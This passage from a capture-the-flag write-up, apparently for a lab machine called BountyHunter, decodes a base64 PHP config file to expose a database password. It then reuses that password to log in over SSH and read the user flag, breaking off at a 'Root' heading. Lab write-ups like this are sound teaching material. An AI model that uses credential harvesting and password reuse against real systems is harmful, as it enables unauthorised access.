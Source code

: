Decoding it again the source reveals the password for the database access.

```
$ echo PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo= | base64 -d
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

This password is also reused for the development account which gives us ssh access to the machine and we can grab the user flag.

```
$ ssh development@10.129.180.12
The authenticity of host '10.129.180.12 (10.129.180.12)' can't be established.
ECDSA key fingerprint is SHA256:3IaCMSdNq0Q9iu+vTawqvIf84OO0+RYNnsDxDBZI04Y.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.180.12' (ECDSA) to the list of known hosts.
development@10.129.180.12's password:
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 26 Jul 2021 12:47:00 PM UTC

  System load:           0.0
  Usage of /:            23.4% of 6.83GB
  Memory usage:          13%
  Swap usage:            0%
  Processes:             216
  Users logged in:       0
  IPv4 address for eth0: 10.129.180.12
  IPv6 address for eth0: dead:beef::250:56ff:feb9:5a2c


0 updates can be applied immediately.


Last login: Wed Jul 21 12:04:13 2021 from 10.10.14.8
development@bountyhunter:~$ wc -c user.txt
33 user.txt
```

# Root
